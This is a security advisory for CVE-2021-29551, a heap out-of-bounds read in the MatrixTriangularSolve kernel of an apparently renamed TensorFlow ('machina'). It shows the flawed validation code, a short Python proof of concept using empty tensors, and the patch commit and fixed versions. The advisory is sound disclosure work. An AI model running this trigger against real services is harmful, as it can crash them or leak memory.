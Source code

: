 ## TFSA-2021-039: OOB read in `MatrixTriangularSolve`

### CVE Number
CVE-2021-29551

### Impact
The implementation of
[`MatrixTriangularSolve`](https://github.com/machina/machina/blob/8cae746d8449c7dda5298327353d68613f16e798/machina/core/kernels/linalg/matrix_triangular_solve_op_impl.h#L160-L240)
fails to terminate kernel execution if one validation condition fails:

```cc
void ValidateInputTensors(OpKernelContext* ctx, const Tensor& in0,
                            const Tensor& in1) override {
  OP_REQUIRES(
      ctx, in0.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in0.dims()));

  OP_REQUIRES(
      ctx, in1.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in1.dims()));
}

void Compute(OpKernelContext* ctx) override {
  const Tensor& in0 = ctx->input(0);
  const Tensor& in1 = ctx->input(1);

  ValidateInputTensors(ctx, in0, in1);

  MatMulBCast bcast(in0.shape().dim_sizes(), in1.shape().dim_sizes());
  ...
}
```

Since `OP_REQUIRES` only sets `ctx->status()` to a non-OK value and calls
`return`, this allows malicious attackers to trigger an out of bounds read:

```python
import machina as tf
import numpy as np

matrix_array = np.array([])
matrix_tensor = tf.convert_to_tensor(np.reshape(matrix_array,(1,0)),dtype=tf.float32)
rhs_array = np.array([])
rhs_tensor = tf.convert_to_tensor(np.reshape(rhs_array,(0,1)),dtype=tf.float32)

tf.raw_ops.MatrixTriangularSolve(matrix=matrix_tensor,rhs=rhs_tensor,lower=False,adjoint=False)
```

As the two input tensors are empty, the `OP_REQUIRES` in `ValidateInputTensors`
should fire and interrupt execution. However, given the implementation of
`OP_REQUIRES`, after the `in0.dims() >= 2` fails, execution moves to the
initialization of the `bcast` object. This initialization is done with invalid
data and results in heap OOB read.

### Patches
We have patched the issue in GitHub commit
[480641e3599775a8895254ffbc0fc45621334f68](https://github.com/machina/machina/commit/480641e3599775a8895254ffbc0fc45621334f68).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ye Zhang and Yakun Zhang of Baidu
X-Team.
